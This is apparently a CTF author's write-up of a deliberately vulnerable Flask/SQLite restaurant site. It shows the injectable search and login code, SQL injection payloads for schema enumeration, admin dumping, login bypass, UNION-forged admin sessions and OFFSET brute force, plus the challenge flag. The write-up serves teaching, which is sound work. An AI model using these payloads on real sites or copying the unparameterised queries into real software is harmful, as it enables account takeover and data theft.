



## Table of Contents

* [1. Introduction](#1-introduction)
* [2. Context](#2-context)
* [3. Intended Solution](#3-intended-solution)

  * [3.1 Database Enumeration](#31-database-enumeration)
  * [3.2 Login Bypass](#32-login-bypass)
* [4. Unintended Solutions](#4-unintended-solutions)

  * [4.1 User Creation Exploit](#41-user-creation-exploit)
  * [4.2 Brute Force Login](#42-brute-force-login)
* [5. Conclusion](#5-conclusion)

---

## 1. Introduction

Yummy Yummer is the first web CTF challenge I ever made. I wanted players to:

* Identify potentially vulnerable inputs
* Enumerate the database structure
* Leak specific databases
* Bypass logins with the leaked admin account

However, it was very fun to see players solve the challenge through ways I didn't consider at all when making the challenge, like manipulating the cookie or brute forcing the logins.

---

## 2. Context

The website is a fast food website, displaying a menu customers can search and also a login page for users to log in. The objective was to **log in to the admin user** and access `/flag` (which checks if the current user has the `admin` role—this becomes important later).

From the SQL Injection tag, players could probably guess some of the inputs would be vulnerable to SQL injection, and they are right for the only 2 inputs in the website:

1. The Login Page: 
2. The menu search bar: 

---

## 3. Intended Solution

### 3.1 Database Enumeration

The intended solution was to enumerate database information from the menu search bar, utilising a UNION statement.

```python
# This is the vulnerable search bar
def browse_menu(search):
    with get_conn() as conn:
        cur = conn.execute(
            "SELECT sku, name, category, price_cents "
            "FROM menu "
            f"WHERE is_active = 1 AND name LIKE '%{search}%' "
            "ORDER BY 2"
        )
        return [dict(r) for r in cur.fetchall()]
```

* Since `search` is directly inserted into the statement, you can easily close the string and perform a UNION.
* From this point on, you can use a variety of payloads (most commonly UNION) to exfiltrate the schema details and display the admin user within the `user` table. Below are some useful payloads to do this:

```sql
/* Test if database is SQLite */
%' UNION ALL SELECT sqlite_version(), sqlite_source_id(), 'sqlite', 0 --

/* Leak the database schema to determine the user table & columns */
%' UNION ALL
SELECT name, sql, 'just_text_as_padding', 0
FROM sqlite_schema
WHERE type='table' AND sql IS NOT NULL --

/* Leak the admin user */
%' UNION ALL
SELECT username, role, is_active, 0
FROM user -- 
```

### 3.2 Login Bypass

From here, you can utilise the admin user and perform a login bypass:

```python
# Vulnerable Login Code
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        u = request.form.get("username", "")
        p = request.form.get("password", "")
        hash_p = sha256(p.encode("utf-8")).hexdigest()
        tbl = users_table()
        sql = (
            f"SELECT username, role, is_active FROM {tbl} "
            f"WHERE username='{u}' AND password_hash='{hash_p}' AND is_active=1"
        )
        with get_conn() as conn:
            row = conn.execute(sql).fetchone()
        if not row:
            flash("Invalid credentials or inactive account.", "danger")
            return redirect(url_for("login"))
        session["username"] = row["username"]
        session["role"] = row["role"]
        flash(f"Welcome, {row['username']}!", "success")
        return redirect(url_for("menu"))
    return render_template("login.html")
```

Some points in the code that are vulnerable:

* The SQL statement is not parameterised at all. This allows me to inject SQL to expand the functionality of the statement.
* It returns the first row when multiple entries are found.

```sql
/* Login bypass */
bob' AND 1=1 --
```

**Note:** A lot of students attempting this challenge were confused when they entered the login details like this:

```
username: bob' OR 1=1 --
```

This results in another user being returned (e.g., Fran). When investigating the table, Fran would be the first user. This is due to the syntax of `OR`, which results in all rows in the `user` table being true, thus returning the whole table and selecting the first row.

After logging in as bob, you can visit `/whoami` to verify your role as admin and visit `/flag` for the flag:
`flag{tH3r35_a_McD0Na1D_1n_7h3_PeN74g0N}`

---

## 4. Unintended Solutions

### 4.1 User Creation Exploit

#### Context

Funny enough, from the students I saw who solved this challenge, did not follow what I initially intended, which was actually quite funny, so I wanted to showcase them here.

#### What I initially thought

Intially, I thought the student manipulated the cookie to create a new "user" that is an admin. However, when I tried to recreate this in different ways I realized that he didn't—I just assumed when I saw him looking at the decoded cookie before solving the challenge.
He showed me a `/whoami` displaying `admin` as the username and `test` as the role, which was interesting.

#### How I arrived at the real cause

This led me to think that through the login field he was able to trick the system to log him in as a new user of whatever he chose through this payload injected into the username field:

```sql
x' UNION SELECT 'root_admin','admin',1 --
```

But how did I come to this decision?

#### Cookie analysis

When I first analyzed the cookie when logged in as guest, I saw this:


A Flask session cookie is not encrypted and the content can be viewed by base64-decoding. The issue here is that you can't manipulate the cookie content and base64-encode it again, because these cookies are **signed** by the Flask secret key. From the cookie I can see that the main components are `role`, `username`.

#### Why the UNION works

If you try the UNION statement in the login username field, it would initially lead to an error, as the statement expects a third column—UNION requires the same number of columns. From the `user` table we exfiltrated, we can see a column called `is_active`, which probably looks correct, so we return a `1` for this.

#### Full SQL after injection

This is what the full SQL statement after the injection looks like:

```sql
SELECT username, role, is_active
FROM {tbl}
WHERE username='x' UNION SELECT 'root_admin','admin',1 -- ' 
AND password_hash='…' AND is_active=1
```

#### Breakdown of the injected command

1. `x'` attempts to close the SQL string, and also forces the database to look for a username called `x`, which probably doesn't exist, thus returning nothing.
2. `UNION SELECT 'root_admin','admin',1 --` joins its output with the initial SQL. Since the initial is 0 rows, the one row generated by the UNION from the static data allows the student to essentially log in as any person with any role.

#### Outcome

This allows you to log in as any user and role, so you could enter `admin` as your role and get the flag from the `/flag` endpoint.

### 4.2 Brute Force Login

This solution is by far the simplest, and I was heavily thinking if I should quickly patch this when I found out about it, but decided against it because why not.

For an overview, students would in the username field use an `OR` statement to return all entries in the `user` table. They would then use `LIMIT 1` and `OFFSET` to try every user row and pray that it is admin. The issue here is that for user initialization on the database part, I only had a small amount of users created—around 10? So it was very easy to brute force this:

```sql
/* You can change the OFFSET by increments of 1 to try the next user */
' OR 1=1 ORDER BY user_id LIMIT 1 OFFSET 0 -- 
```

If you were curious, this was what the DB initialization code looked like for user creation:

```python
if conn.execute("SELECT COUNT(*) FROM user").fetchone()[0] == 0:
    bases = ["alice", "bob", "charlie", "dana", "evan", "fran", "gabe"]
    pool = random.sample(bases, k=min(num_users, len(bases)))   # pick usernames
    admin_user = random.choice(pool)                            # 1 random admin
    for u in pool:
        role = "admin" if u == admin_user else "customer"
        pw = gen_random_password()
        hashed_pw = hashlib.sha256(pw.encode("utf-8")).hexdigest()
        conn.execute(
            "INSERT INTO user (username,email,password_hash,role) VALUES (?,?,?,?)",
            (u, f"{u}@example.com", hashed_pw, role),
        )
```

I only created 8 users—this is way too little in hindsight. I should have created **THOUSANDS** of users to avoid this, but bravo to those who thought of this—well played.

---

## 5. Conclusion

To conclude this, students learnt about SQL injection, especially when SQL statements are not parameterised with no validation. Along with helpful SQL types such as UNION, LIMIT, OFFSET, etc. It was really great to see students think out of the box for unintended solutions.
